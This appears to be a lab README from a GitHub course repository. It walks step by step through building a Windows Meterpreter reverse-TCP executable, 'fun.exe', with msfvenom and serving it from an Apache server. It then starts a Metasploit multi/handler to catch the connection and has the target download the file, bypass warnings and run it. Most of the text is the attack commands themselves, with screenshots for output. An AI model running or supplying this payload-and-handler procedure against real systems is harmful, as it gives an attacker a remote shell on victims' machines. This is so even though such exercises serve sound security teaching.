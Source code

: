 ### PROGRAM:

Find the attackers ip address using ifconfig

### Output:
<img width="955" height="1045" alt="ifco" src="https://github.com/user-attachments/assets/7978fabb-e001-478d-b329-695eeffe95d1" />



Create a malicious executable file fun.exe using msenom command ``` msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe```

### Output:
<img width="1920" height="1057" alt="sudo" src="https://github.com/user-attachments/assets/e1853a19-878b-4374-aebc-2f01955e470f" />



copy the fun.exe into the apache ```/var/www/html ```folder
<img width="597" height="107" alt="Screenshot 2025-09-29 092520" src="https://github.com/user-attachments/assets/756fb169-3f0b-4d4f-b7fb-c2d9688651db" />



Start apache server ```sudo systemctl apache2 start``` 

<img width="579" height="121" alt="Screenshot 2025-09-29 092856" src="https://github.com/user-attachments/assets/4ec4a5de-a5eb-42fb-9062-d89b5cee487d" />


Check the status of apache2 ```sudo apache2 status```

<img width="778" height="334" alt="Screenshot 2025-09-29 093317" src="https://github.com/user-attachments/assets/8114d00d-7a54-40ef-ad7c-df207ed86db1" />

Invoke msfconsole:
## OUTPUT:
<img width="1920" height="1057" alt="mss" src="https://github.com/user-attachments/assets/16907584-d063-4347-a78f-567d5dfb7334" />

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.
<img width="742" height="546" alt="Screenshot 2025-09-29 093517" src="https://github.com/user-attachments/assets/faefee01-9289-4980-828b-b61ac4446e44" />

Starting a command and control Server ```use multi/handler``` ```set PAYLOAD windows/meterpreter/reverse_tcp``` ```set LHOST 0.0.0.0``` ```exploit```

### Output 
<img width="1920" height="1057" alt="VirtualBox_kali_29_09_2025_09_37_36" src="https://github.com/user-attachments/assets/c1868447-a390-41be-8527-2a4ce706f0b1" />


On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: ```http://192.168.1.2/fun.exe``` The file "fun.exe" downloads.

<img width="767" height="355" alt="Screenshot 2025-09-29 093819" src="https://github.com/user-attachments/assets/55fd65cb-0bd4-46f4-bf0a-d0a37b155b24" />


Bypass any warning boxes, double-click the file, and allow it to run.
<img width="779" height="304" alt="Screenshot 2025-09-29 093857" src="https://github.com/user-attachments/assets/94dc8119-21a4-4825-993f-d0a645f2be26" />
